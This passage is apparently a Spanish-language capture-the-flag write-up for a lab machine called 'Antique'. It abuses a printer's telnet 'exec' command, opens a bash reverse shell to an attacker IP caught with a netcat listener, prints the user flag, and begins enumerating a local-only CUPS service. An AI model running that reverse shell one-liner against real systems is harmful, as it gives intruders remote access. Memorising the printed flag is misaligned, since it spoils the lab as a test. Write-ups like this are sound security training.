 ```bash
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 
```

se utilizó un one-liner en Bash para establecer una reverse shell hacia la máquina atacante. El comando ejecutado permitió obtener una shell remota como usuario limitado en el sistema objetivo.
```telnet
> exec bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"   
```

se dejó un listener activo a la espera de conexiones entrantes. proporcionando acceso interactivo como el usuario lp.
```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.107] 46364
bash: cannot set terminal process group (1033): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ 
```

### Captura flag usuario

```bash
lp@antique:~$ whoami
whoami
lp
lp@antique:~$ ls
ls
telnet.py
user.txt
lp@antique:~$ cat user.txt
cat user.txt
a1b853f4ac4e41819d927d5d116a989e
lp@antique:~$ 
```

## CUPS Exploitation

Durante la enumeración de servicios internos se identificó que el puerto 631, correspondiente al servicio CUPS (Common UNIX Printing System), se encuentra en escucha exclusivamente en la interfaz local (127.0.0.1). Esto indica que el panel de administración de CUPS está restringido al acceso local, lo que sugiere que para interactuar con él será necesario establecer un túnel o ejecutar comandos desde la propia máquina comprometida.
```bash
lp@antique:/tmp$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      2 10.10.11.107:48038      10.10.16.6:443          ESTABLISHED
tcp        0      0 10.10.11.107:23         10.10.16.6:60282        ESTABLISHED
tcp        0      0 10.10.11.107:23         10.10.16.6:58550        ESTABLISHED
tcp       24      0 10.10.11.107:23         10.10.16.6:39520        CLOSE_WAIT 
```